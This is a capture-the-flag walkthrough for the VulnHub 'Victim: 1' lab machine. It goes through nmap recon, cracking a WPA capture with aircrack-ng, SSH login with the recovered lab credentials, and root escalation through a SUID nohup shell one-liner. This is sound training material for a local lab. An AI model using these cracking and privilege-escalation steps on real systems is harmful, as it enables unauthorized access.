# Victim: 1 Walkthrough

## Preparation
1. Download Victim1.ova file ([Victim-1.ova](https://download.vulnhub.com/victim/Victim01_042220.ova))

1. Import the OVA file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
    

1. Start the Victim-1 virtual machine
    * Turn on the Victim-1 virtual machine from the VirtualBox  
      

1. Confirm the IP address of the Victim-1 virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
      
      
        * 192.168.56.100: DHCP Server
        * **192.168.56.107**: Victim-1 Server

1. Set the Victim-1 IP address to the environment variance  
    * `export IP=192.168.56.107`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
    
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the DC-2 IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file

1. As we see the nmap result, we can attempt to access of 80 (Http Service), 22 (SSH Service), 8080, 8999, and 9000 ports.  

## Initial Access
1. Access to the 8999 port
    * Open web browser from the ParrotOS and access to the `http://192.168.56.107:8999/`  
      
        - These files seem to be WordPress files  
    * Download the "WPA-01.cap" file  

1. Investigate the capture file
    * `file WPA-01.cap`  
      

1. Access the capture file  
    * Open the capture file with Wireshark  
    * Statistics -> Protocol Hierarchy  
      
    * See the No.1 packet  
      
        - SSID: "**dlink**"  
        - Cryptographic method: WPA version 1  

## Execution  
1. Analyze the wireless Lan password  
    * Analyze with Aircrack-ng  
    * `aircrack-ng WPA-01.cap -w /usr/share/wordlists/rockyou.txt`  
      

## Credential Access  
1. Access to the SSH service  
    * Access to the SSH with the SSID (dlink) as a username and the password (p4ssword)  
    * `ssh dlink@$IP`  
      

1. Search SUID files
    * Search SUID files with find command  
    * `find / -perm -4000 -ls 2> /dev/null`  
      
        - nohup command is SUID  

## Privilege Escalation   
1. Exploit nohup command  
    * `nohup /bin/sh -p -c "sh -p < $(tty) > $(tty) 2> $(tty)"`  
      
        - root prompt is responded  

## Credential Access for root user  
1. Access to the flag.txt  
    * Go to the flag.txt and open it  
      